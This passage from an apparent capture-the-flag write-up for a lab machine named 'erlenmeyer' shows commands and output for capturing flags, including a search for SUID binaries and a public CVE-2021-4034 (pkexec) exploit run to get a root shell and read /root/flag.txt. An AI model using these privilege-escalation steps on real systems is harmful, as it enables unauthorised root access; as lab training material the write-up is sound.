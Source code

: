 
When running the script, we get a significant amount of `output`. Scanning through it, we finally spot what we’ve been hunting for—the `flag`
```
    administrator@erlenmeyer:~$ python3 exploit.py
    ....FARADAY{@cc3ss_10gz_c4n_b3_use3fu111}....   
    administrator@erlenmeyer:~$
 ```   

  

  

### Administrator View

#### FARADAY{\_\_1s\_pR1nTf\_Tur1ng\_c0mPl3t3?\_\_}

##### Priv Escalation 
  

Searching for files with privileges `suid`we found a fairly classic one,`pkexec`
```
    administrator@erlenmeyer:~$ find / -perm -4000 2>/dev/null | grep -v snap  
    /usr/bin/umount
    /usr/bin/mount
    /usr/bin/fusermount
    /usr/bin/passwd
    /usr/bin/gpasswd
    /usr/bin/su
    /usr/bin/at
    /usr/bin/sudo
    /usr/bin/pkexec
    /usr/bin/chsh
    /usr/bin/chfn
    /usr/bin/newgrp
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign
    administrator@erlenmeyer:~$ ls -l /usr/bin/pkexec
    -rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec
    administrator@erlenmeyer:~$
 ```   

  

[We can use a CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034) exploit to become `root`and read the flag
```
    administrator@erlenmeyer:/tmp$ python3 exploit.py  
    [+] Creating shared library for exploit code.
    [+] Calling execve()
    # whoami
    root
    # hostname -I
    10.13.37.14 172.17.0.1 172.22.0.1
    # cat /root/flag.txt
    FARADAY{__1s_pR1nTf_Tur1ng_c0mPl3t3?__}
    #
```    
